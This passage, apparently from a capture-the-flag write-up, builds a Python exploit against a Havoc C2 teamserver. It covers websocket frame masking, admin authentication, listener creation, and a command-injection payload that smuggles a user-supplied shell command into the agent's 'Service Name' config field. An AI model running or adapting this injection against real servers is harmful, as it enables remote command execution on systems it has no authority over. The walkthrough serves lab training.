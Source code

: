 ```
    frame += masking_key
    masked_payload = bytearray(payload[i] ^ masking_key[i % 4] for i in range(payload_length))
    frame += masked_payload

    return frame

```

#### Sending Messages

The first message is the authentication message. I’ll add a couple of arguments to the script to read in the username, password, and command:

```

parser.add_argument("-U", "--admin-username", help="Username for admin auth", required=True)
parser.add_argument("-P", "--password", help="Password for admin auth", required=True)
parser.add_argument('-c', '--cmd', help="Command to run", required=True)

```

I’ll copy the payload from the RCE POC and pass it to the function to generate websocket frames:

```

# auth
payload = {"Body": {"Info": {"Password": hashlib.sha3_256(args.password.encode()).hexdigest(), "User": args.admin_username}, "SubEvent": 3}, "Head": {"Event": 1, "OneTime": "", "Time": "18:40:17", "User": args.admin_username}}
message = create_websocket_frame(json.dumps(payload))
write_socket(socket_id, message)

```

The next frame is creating some kind of listener. I’ll only need to update the variable name holding the username at the end:

```

# listener
payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": args.admin_username}}
message = create_websocket_frame(json.dumps(payload))
write_socket(socket_id, message)

```

Finally, the command injection message. I’ll use the code from the POC again, updating it to take `args.cmd`:

```

# injection
injection = """ \\\\\\\" -mbla; """ + args.cmd + """ 1>&2 && false #"""
payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n    \"Amsi/Etw Patch\": \"None\",\n    \"Indirect Syscall\": false,\n    \"Injection\": {\n        \"Alloc\": \"Native/Syscall\",\n        \"Execute\": \"Native/Syscall\",\n        \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n        \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n    },\n    \"Jitter\": \"0\",\n    \"Proxy Loading\": \"None (LdrLoadDll)\",\n    \"Service Name\":\"" + injection + "\",\n    \"Sleep\": \"2\",\n    \"Sleep Jmp Gadget\": \"None\",\n    \"Sleep Technique\": \"WaitForSingleObjectEx\",\n    \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
    "Event": 5, "OneTime": "true", "Time": "18:39:04", "User": args.admin_username}}
message = create_websocket_frame(json.dumps(payload))
write_socket(socket_id, message)
```
